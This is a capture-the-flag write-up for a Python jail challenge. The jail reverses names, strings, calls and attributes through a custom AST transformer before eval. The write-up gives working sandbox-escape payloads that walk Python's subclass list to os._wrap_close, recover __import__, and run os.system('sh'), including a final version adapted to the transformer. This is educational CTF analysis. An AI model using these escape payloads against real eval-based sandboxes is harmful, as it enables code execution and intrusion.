

## TSA

### Disclaimer  

didnt participate in blahaj but i managed to get the pyjail dist from one of my friends after quals ended  

### Writeup  

We are given a Pyjail where our input is first parsed by a custom AST, then passed through an `eval()` call with `__builtins__` disabled.  


The Dockerfile also shows that the flag file is in the same directory as the jail.  


Looking at the AST, we can conclude that it does the following:  
- swaps function names and their first argument: `f(a) -> a(f)`  
- reverses identifiers: `tuple -> elput`
- reverses strings: `"hello" -> "olleh"`  
- swaps the object and its attribute: `o.a -> a.o`  
- swaps the object and its subscript: `a[0] -> 0[a]`  
- swaps binary operators: `a + b -> b + a`  

This is essentially a backwards AST that enforces a reverse syntax on our code.  

```python
class tsa(ast.NodeTransformer):
    def visit_Call(self, node):
        # llaC()
        self.generic_visit(node)
        if node.args:
            node.func, node.args[0] = node.args[0], node.func
        return node

    def visit_Name(self, node):
        # emaN()
        if isinstance(node.id, str):
            node.id = node.id[::-1]
        return node

    def visit_Constant(self, node):
        # tnatsnoC()
        if isinstance(node.value, str):
            node.value = node.value[::-1]
        return node

    def visit_Attribute(self, node):
        #etubirttA()
        self.generic_visit(node)
        if isinstance(node.attr, str):
            new_value = ast.Name(id=node.attr, ctx=ast.Load())
            if isinstance(node.value, ast.Name):
                node.attr = node.value.id
            elif isinstance(node.value, ast.Constant) and isinstance(node.value.value, str):
                node.attr = node.value.value
            else:
                node.attr = "rorre_tsa"
            node.value = new_value
        return node

    def visit_Subscript(self, node):
        #tpircsbuS()
        node.value, node.slice = node.slice, node.value
        return node
    
    def visit_BinOp(self, node):
        node.left, node.right = node.right, node.left
        return node
```

Essentially, our payload has to be detected as valid syntax by the AST, while being able to execute malicious code after being transformed by the AST.  

The first step for us would be to find a way to get RCE. We can escape the sandbox by using an attribute chain on a tuple, then gain access to `__builtins__` through the `os.wrap_close_` class.  

From there, we can import the `os` class and get a shell.  

```python
[i for i in ().__class__.__base__.__subclasses__() if "wrap_" in f'{i}'][0].__init__.__builtins__["__import__"]('os').system('sh')
```

The next thing we need to do is to modify our payload such that it can achieve the same functionality after being transformed by the AST.  

If we pass our code into the AST twice, our code should theoretically remain the same (iygwim). Essentially, if we pass our payload through the AST once, then submit our transformed payload to the server, our payload should technically function normally.  

However, if we pass our raw payload through the AST, we get a parsing error. This means we have to tweak our payload a bit until we get a successful transformation.  

```python
'hs'(system.rorre_tsa)
```

We can minimise the syntax deformations from the AST by splitting up our payload. Since assignments aren't affected by the AST, we can use the walrus operator in conjunection with a tuple to separate our payload into individual parts to be parsed by the AST.  

```python
(o:=[i for i in ().__class__.__base__.__subclasses__() if 'wrap_' in f'{i}'][0].__init__.__builtins__['__import__']('os'), s:=o.system, s('sh'))
```

Transforming our payload and passing it into the jail gives us more progress. This time, we can see that the `os` module has been loaded, but the AST is trying to access `metsys` instead of `system`.  


We just have to reverse `system` in our payload before passing it into the AST. This gives us our final transformed payload.  

```python
((o := 'so'('__import__'[[i for i in ().__class__.__base__.__subclasses__() if 'wrap_' in f'{i}'][0].__init__.__builtins__])), (s := metsys.o), 'hs'(s))
```

Submitting the payload will then spawn a shell, which we can use to read the flag.  

